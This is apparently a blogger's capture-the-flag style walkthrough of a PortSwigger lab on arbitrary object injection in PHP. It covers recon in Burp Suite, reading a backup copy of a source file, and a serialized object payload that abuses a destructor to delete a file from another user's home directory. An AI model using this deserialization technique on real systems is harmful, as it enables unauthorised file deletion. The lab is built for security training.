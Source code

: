 ```yaml
---
title: 'Lab: Arbitrary object injection in PHP'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/Deserialization"
---
```


# Lab: Arbitrary object injection in PHP
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result.
* Goal: To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.
You can log in to your own account using the following credentials: wiener:peter
* Hint: You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file.

## Constructor & Deconstructor
[Python建構函式與解構函式（__init__()和__del__()）](https://tw511.com/a/01/26451.html)
其實概念就是Python的`__init()__` function，在instanciate一個class的時候扮演初始化的功能而已
而deconstructor就是Python中的`__del__()` function用來回收不需要的class，以達到降低記憶體的使用量

## Recon
1. Login and Recon
As the solution of this lab, we first need to arbitrary query something in this website, e.g. query `My account` and forward all packages

2. Use Target Feature in Burp Suite
In my case, the URL of this lab is `https://0a29005704ba2655802d8a75009100d5.web-security-academy.net/my-account?id=wiener`

    So, I can search it in target feature to browse all query of this website.
    ![](https://i.imgur.com/SWrrzgI.png)

3. <font color="FF0000">通靈</font>Something Interesting - `/libs/CustomTemplate.php`
This file may be a vulnerability to achieve our goal.

4. Send to repeater
Obviously, you can not access the content first.
![](https://i.imgur.com/D31vFeN.png)

    By the hint. The solution is using `~` character to read the source code
    ![](https://i.imgur.com/1N1EpQh.png)

    :::spoiler CustomTemplate.php Source Code
    ```php=
    <?php

    class CustomTemplate {
        private $template_file_path;
        private $lock_file_path;

        public function __construct($template_file_path) {
            $this->template_file_path = $template_file_path;
            $this->lock_file_path = $template_file_path . ".lock";
        }

        private function isTemplateLocked() {
            return file_exists($this->lock_file_path);
        }

        public function getTemplate() {
            return file_get_contents($this->template_file_path);
        }

        public function saveTemplate($template) {
            if (!isTemplateLocked()) {
                if (file_put_contents($this->lock_file_path, "") === false) {
                    throw new Exception("Could not write to " . $this->lock_file_path);
                }
                if (file_put_contents($this->template_file_path, $template) === false) {
                    throw new Exception("Could not write to " . $this->template_file_path);
                }
            }
        }

        function __destruct() {
            // Carlos thought this would be a good idea
            if (file_exists($this->lock_file_path)) {
                unlink($this->lock_file_path);
            }
        }
    }

    ?>
    ```
    :::
    
    In this example, we notice that it has constructor and deconstructor so we can constuct a serialization string to delete something

## Exp - Deconstructor
Exploit Payload:
```php!
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Then send it directly and we can delete the specific file properly.
:::spoiler Success Screenshot
![](https://i.imgur.com/NXvqtr5.png)

:::